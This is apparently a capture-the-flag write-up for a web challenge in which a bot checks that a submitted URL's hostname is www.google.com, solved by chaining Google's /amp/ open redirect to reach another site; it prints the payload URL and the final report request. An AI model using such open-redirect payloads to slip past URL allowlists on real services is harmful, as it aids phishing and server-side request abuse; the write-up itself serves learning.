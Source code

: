 ## Can you redirect me

Category: Web  

## Challenge
To get the flag, we need to satisfy this condition:
```js
if(new URL(final_url).hostname != "www.google.com"){
    res.status(200);
    res.send("<script>alert('FLAG{**REDACTED**}');history.back()</script>")
    return
}
```
This means the bot will only give the flag if the final redirect location is NOT www.google.com

But the first request checks:
```js
if(url.hostname != "www.google.com"){
    res.status(400);
    res.send("I ONLY trust GOOGLE");
    return
}
```

## Solution

Use Google open redirect with /amp/

![image](https://github.com/user-attachments/assets/4059a7ef-e8db-4ef1-b45e-98d8de7ededa)

Payload:
```
https://www.google.com/amp/httpforever.com
```
Final request:
```
/report?url=https://www.google.com/amp/httpforever.com
```

